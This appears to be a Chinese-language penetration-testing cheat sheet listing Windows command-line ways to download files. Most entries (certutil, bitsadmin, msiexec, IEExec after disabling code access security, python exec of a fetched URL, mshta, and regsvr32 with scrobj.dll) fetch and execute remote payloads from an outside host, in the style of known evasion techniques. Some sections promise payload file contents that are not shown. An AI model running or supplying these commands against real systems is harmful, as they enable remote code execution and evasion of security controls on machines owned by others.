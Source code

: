 Windows下命令行下载文件总结

* [0x00 Powershell](#0x00-powershell)
* [0x01 ftp](#0x01-ftp)
* [0x02 IPC$](#0x02-ipc)
* [0x03 Certutil](#0x03-certutil)
* [0x04 bitsadmin](#0x04-bitsadmin)
* [0x05 msiexec](#0x05-msiexec)
* [0x06 IEExec](#0x06-ieexec)
* [0x07 python](#0x07-python)
* [0x08 mshta](#0x08-mshta)
* [0x09 rundll32](#0x09-rundll32)
* [0x10 regsvr32](#0x10-regsvr32)
* [结语](#%e7%bb%93%e8%af%ad)

## 0x00 Powershell

win2003、winXP不支持

$client = new-object System.Net.WebClient

$client.DownloadFile('http://payloads.online/file.tar.gz', 'E:\file.tar.gz')

## 0x01 ftp

ftp 192.168.3.2

输入用户名和密码后

lcd E:\file # 进入E盘下的file目录

cd www # 进入服务器上的www目录

get access.log # 将服务器上的access.log下载到E:\file

可以参考：https://baike.baidu.com/item/ftp/13839

## 0x02 IPC$

copy \192.168.3.1\c$\test.exe E:\file

可以参考：http://www.163164.com/jiqiao/163164com011.htm

## 0x03 Certutil

可以参考：https://technet.microsoft.com/zh-cn/library/cc773087(WS.10).aspx

应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2

certutil.exe -urlcache -split -f http://192.168.3.1/test.txt file.txt

## 0x04 bitsadmin

可以参考：https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx

* 1、 `bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt`
* 2、 `bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt`

## 0x05 msiexec

msiexec /q /i http://192.168.3.1/test.txt

## 0x06 IEExec

C:\Windows\Microsoft.NET\Framework\v2.0.50727> caspol -s off

C:\Windows\Microsoft.NET\Framework\v2.0.50727> IEExec http://192.168.3.1/test.exe

## 0x07 python

C:\python27\python.exe -c "import urllib2; exec urllib2.urlopen('http://192.168.3.1/test.zip').read();"

## 0x08 mshta

mshta http://192.168.3.1/run.hta

run.hta 内容如下：

## 0x09 rundll32

其实还是依赖于WScript.shell这个组件

## 0x10 regsvr32

regsvr32 /u /s /i:http://192.168.3.1/test.data scrobj.dll

test.data内容：

还可以利用 https://github.com/CroweCybersecurity/ps1encode 生成sct(COM scriptlet - requires a webserver to stage the payload)

regsvr32 /u /s /i:http://192.168.3.1/test.sct scrobj.dll
